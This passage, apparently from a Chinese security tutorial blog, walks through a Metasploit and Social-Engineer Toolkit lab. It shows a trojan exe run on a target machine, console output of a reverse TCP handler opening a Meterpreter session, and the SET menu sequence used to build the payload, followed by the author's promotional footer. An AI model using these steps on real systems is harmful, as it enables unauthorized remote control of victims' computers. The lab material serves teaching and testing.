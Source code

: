 ![img](https://img-blog.csdnimg.cn/20190127211632634.png)

此时，我们双击下靶机上的exe木马，命令行输出如下信息：

```bash
[*] Started reverse TCP handler on 192.168.175.128:4444 
msf5 exploit(multi/handler) > [*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1105) at 2019-01-27 15:03:32 +0800

msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x86/windows  LIUYAZHUANG\lyz @ LIUYAZHUANG  192.168.175.128:4444 -> 192.168.175.130:1105 (192.168.175.130)
```

如下图：

![img](https://img-blog.csdnimg.cn/20190127211716197.png)

此时，我们输入sessions -i 1进入Meterpreter命令行。

![img](https://img-blog.csdnimg.cn/20190127211735407.png)

此时，我们同样拿下了靶机的Meterpreter权限。

## 对比分析

在我们手动启动SET进行攻击的时候，依次输入了：1->4->2->192.168.175.128->4444-yes

再来看我们的se-script脚本：

![img](https://img-blog.csdnimg.cn/20190127211808815.png)

正好一一对应，

**注意：脚本的第一行为空行。**


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)

